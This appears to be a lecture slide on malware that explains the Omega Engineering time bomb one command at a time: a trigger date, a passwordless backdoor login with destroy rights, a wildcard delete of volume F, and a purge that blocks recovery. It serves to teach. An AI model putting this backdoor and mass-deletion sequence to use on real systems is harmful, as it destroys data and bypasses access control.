

The Logic Behind the Omega Engineering Time Bomb included the following strings:
7/30/96
Date that triggered the bomb; time bomb
F:
Focused attention to volume F, which had critical files
F:\LOGIN\LOGIN 12345
Login a fictitious user, 12345 (the back door). The user had supervisory and destroy permissions but no password.
CD \PUBLIC
Change the current directory to the public folder
FIX.EXE /Y F:\*.*
Run a program, called FIX, which actually deletes everything; /Y means each file should be deleted. F:\ *.* deletes all files.
PURGE F:\/ALL
Prevent recovery of the deleted files
91
Malware
5/23/2022
# 4.1.2 The Omega Bomb Code